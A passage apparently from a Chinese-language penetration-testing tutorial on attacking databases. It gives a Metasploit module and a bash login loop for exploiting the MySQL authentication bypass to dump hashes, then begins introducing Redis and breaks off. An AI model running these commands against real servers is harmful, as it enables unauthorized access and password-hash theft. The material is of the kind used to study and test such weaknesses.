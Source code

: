 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512142357.png-water_print](assets/1699409321-c58795e0e5a4e70ca6871f34119aeedb.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512142357.png-water_print")

#### [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)漏洞利用

msf：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>use auxiliary/scanner/mysql/mysql_authbypass_hashdump<br>``` |

Linux shell:

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>for i in `seq 1 1000`;do mysql -uroot -pwrong -h IP -P3306;done<br>``` |

## [](#redis)Redis

### [](#redis-%E7%AE%80%E4%BB%8B)redis 简介

Redis 是大家常说的非关系型数据库中的一种，是一个开源的使用 ANSI 语言编写、支持网络可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API

